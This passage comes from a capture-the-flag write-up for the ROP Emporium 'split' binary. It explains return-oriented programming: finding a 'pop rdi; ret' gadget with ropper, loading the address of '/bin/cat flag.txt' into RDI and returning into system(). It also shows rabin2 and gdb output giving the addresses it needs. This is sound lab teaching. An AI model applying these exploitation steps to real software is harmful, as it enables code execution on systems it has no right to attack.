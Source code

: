 In this case, since we want to call `system()` with the address to the string "/bin/cat flag.txt", we have to first put this address into `rdi` before calling `system()`.

This is where a tool like ropper comes into play. What ropper does is it goes through a binary and finds all occurrences of these bits of assembly called "gadgets". An example of a gadget is `pop rdi; ret;`, which simply pops the top value off the stack into the RDI register, then returns out to the next value on the stack. This is known as a "pop rdi gadget". Another gadget might be a `pop rsi; pop r15; ret;` gadget, which you can return into out of a pop rdi gadget. This would allow you to control up to three arguments to a function!

A pop rdi gadget works well for us since `system()` only requires one argument.. We start out by using ropper to find a pop rdi gadget.

```shell
root@kali:~/Documents/ropemporium/split/64split# ropper -f ./split 
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======

...
...
0x0000000000400883: pop rdi; ret; 
...
...

91 gadgets found
root@kali:~/Documents/ropemporium/split/64split# 
```

`"pop rdi; ret;" at 0x0000000000400883`

Now, this is what we need to do.

1. Overwrite RIP with the address to the pop rdi gadget. 
2. The next 8 bytes must be the address to the string "/bin/cat flag.txt", which will get stored into RDI using the `pop rdi;` statement.
3. The next 8 bytes must be the address to `system()`, which the `ret;` statement will return into.

We don't have to provide a return address for `system()` in this case because we aren't passing arguments through the stack.

Let's not forget to quickly grab the addresses for `system@plt` and the string "/bin/cat flag.txt".
```shell
root@kali:~/Documents/ropemporium/split/64split# rabin2 -z ./split 
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x000008a8 0x004008a8  21  22 (.rodata) ascii split by ROP Emporium
001 0x000008be 0x004008be   7   8 (.rodata) ascii 64bits\n
002 0x000008c6 0x004008c6   8   9 (.rodata) ascii \nExiting
003 0x000008d0 0x004008d0  43  44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x000008ff 0x004008ff   7   8 (.rodata) ascii /bin/ls
000 0x00001060 0x00601060  17  18 (.data) ascii /bin/cat flag.txt
root@kali:~/Documents/ropemporium/split/64split# gdb ./split 
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.2.1 using Python engine 3.7
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./split...(no debugging symbols found)...done.
gef➤  print 'system@plt'
$1 = {<text variable, no debug info>} 0x4005e0 <system@plt>
gef➤  
```